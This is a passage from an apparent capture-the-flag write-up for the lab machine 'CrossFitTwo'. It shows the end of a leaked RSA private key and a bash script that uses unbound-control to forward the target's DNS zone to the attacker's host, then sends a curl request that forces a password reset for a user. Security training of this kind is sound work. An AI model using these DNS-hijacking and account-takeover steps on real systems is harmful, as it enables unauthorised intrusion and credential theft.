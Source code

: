 ```
+HI272PrIJJaXvrAJgZr7MOzw2olZ7pph/AywkfnQK/npPHiSQKBwCsSUG0uq8dh
Hz8D1tE7GdpJKPSCzbH69kBly6QZsp7mcaHOXQSIpVJsE94PQFhSHLmEf63ljV1P
Tqob+fMl1zU/1GNcCy8ZG3kcIaO3LnMSgb3eTRHTejQBP32a3JaXBCtJ0FZQkljG
ctYw9KpX23XJmQgoLdDjQjYtp5gsITwJTlVv6fEqXFygRfl5kzfwAgn8m4zi8NyB
B1BfdaJYkNzVBJ9uWoxZfc00PJnEsZRle7tVvaC+gBB0dJuby17hQA==
-----END RSA PRIVATE KEY-----
```


## Unbound dns spoof

First we need to install unbound with apt and stop the service because we will need port `53` udp later to spoof dns.

```
$ sudo apt-get install unbound
$ sudo systemctl stop unbound
```

We then copy all these keys to `/etc/unbound/unbound_server.pem` `/etc/unbound/unbound_control.pem` `/etc/unbound/unbound_control.key` respectivly.

Now we are able to add a forward lookup zone to the target to query every unknown subdomain of `crossfit.htb` from our machine. We pack the unbound command with a curl request to reset the password for david in a small bash script, since both need to happen after one another anyways and the server seems to reset the forward zones again after some time. 

`forward_and_reset.sh`
```bash
#!/bin/bash

unbound-control  -s 10.129.68.20 forward_add +i crossfit.htb 10.10.14.65
curl -i -s -k -XPOST  -H 'Host: sm1l3z.employees.crossfit.htb'  -H 'Content-Type: application/x-www-form-urlencoded' -d 'email=david.palmer%40crossfit.htb' 'http://sm1l3z.employees.crossfit.htb/password-reset.php'
```

Starting wireshark and listening on our vpn interface filtering traffic for dns we execute the script with sudo.

```
sudo ./forward_and_reset.sh
ok
```

Looking at wireshark we can see the target is indeed sending a dns request to us which obviously fails right now.

[![wireshark_lookup](/img/crossfittwo/wireshark_lookup.png)](/img/crossfittwo/wireshark_lookup.png)

The output from the curl command has also some interesting information, mentioning that the reset has to happen from  localhost. This means we need to spoof the first request to point to `127.0.0.1`.
